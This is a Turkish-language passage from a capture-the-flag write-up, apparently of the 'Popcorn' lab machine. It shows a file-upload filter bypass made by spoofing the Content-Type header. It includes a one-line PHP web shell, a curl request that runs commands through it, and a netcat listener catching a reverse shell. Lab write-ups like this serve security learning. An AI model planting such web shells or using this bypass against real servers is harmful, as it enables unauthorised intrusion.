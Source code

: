 Eğer **`Content-Type`** başlığını `application/x-php` olarak değiştirirsem, sunucu bunu engelliyor (dosya adını tekrar `.png` olarak değiştirsem bile).

![Pasted image 20250206181433.png](/img/user/resimler/Pasted%20image%2020250206181433.png)

Content'i değiştirmenin bir önemi yok gibi görünüyor:

![Pasted image 20250206181531.png](/img/user/resimler/Pasted%20image%2020250206181531.png)

```
<?php system($_REQUEST["cmd"]); ?>
```

### Upload

Filtre testi sonuçlarına göre, bir dosyayı `.php` olarak adlandırıp PHP kodu içerebileceğim gibi görünüyor, yeter ki **Content-Type** başlığını geçerli bir görsele değiştirsem.

![Pasted image 20250206181640.png](/img/user/resimler/Pasted%20image%2020250206181640.png)

Bunu Repeater'dan göndereceğim (ya da tekrar form üzerinden shell’i yükleyebilir ve Proxy kullanarak isteği yakalayıp değiştirebilirim).

**`/torrent/upload`** adresini kontrol ettiğimde, orada bir PHP dosyası buldum (bir şeyin SHA1 hash’iyle adlandırılmış gibi görünüyor).

![Pasted image 20250206181725.png](/img/user/resimler/Pasted%20image%2020250206181725.png)

Ve çalıştırma sağlar:

```
root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![Pasted image 20250206184052.png](/img/user/resimler/Pasted%20image%2020250206184052.png)
### Shell

Bir shell almak için, nc'yi başlatacağım ve cmd'yi reverse shell olarak geçireceğim:

![Pasted image 20250206184202.png](/img/user/resimler/Pasted%20image%2020250206184202.png)

Nc'de:

```
root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:33054.
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
